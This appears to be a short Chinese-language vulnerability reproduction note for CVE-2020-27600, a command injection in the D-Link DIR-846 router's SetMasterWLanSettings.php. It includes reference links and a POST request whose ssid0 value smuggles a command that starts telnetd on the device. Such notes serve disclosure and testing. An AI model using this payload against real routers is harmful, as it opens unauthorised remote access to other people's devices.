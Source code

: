 # 

# D-Link DIR-846 命令注入漏洞 CVE-2020-27600

## 漏洞描述

D-Link DIR-846 A1_100.26 路由器中的HNAP1/control/SetMasterWLanSettings.php允许远程攻击者通过ssid0或ssid1参数进行执行任意命令。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2020-27600
- https://github.com/pwnninja/dlink/blob/main/DIR-846_SetMasterWLanSettingsCI.md

## 漏洞复现

需要登录Web控制台，然后访问/Wireless.html无线设置页面。

```
POST  /HNAPI HTTP/1.1
...
$data["ssid0"]="'x;telnetd;'"
```


